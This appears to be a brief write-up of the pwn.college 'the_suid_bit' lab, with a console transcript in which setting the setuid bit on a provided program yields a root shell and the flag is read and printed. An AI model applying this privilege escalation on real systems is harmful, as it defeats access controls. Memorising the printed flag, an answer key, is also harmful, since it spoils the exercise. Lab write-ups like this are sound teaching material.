 # CTF Challenge: the_suid_bit

## Table of Content

- commands-executed: chmod u+s /challenge/getroot , /challenge/getroot , cat /flag
- flag :pwn.college{0IcOPZO7fK7tRVPrbzAXuymuy_d.dNTM2QDLzETN0czW}


### Output:
```console
hacker@permissions~the-suid-bit:~$ chmod u+s /challenge/getroot 
hacker@permissions~the-suid-bit:~$ /challenge/getroot 
SUCCESS! You have set the suid bit on this program, and it is running as root! 
Here is your shell...
root@permissions~the-suid-bit:~# cat /flag
pwn.college{0IcOPZO7fK7tRVPrbzAXuymuy_d.dNTM2QDLzETN0czW}
```
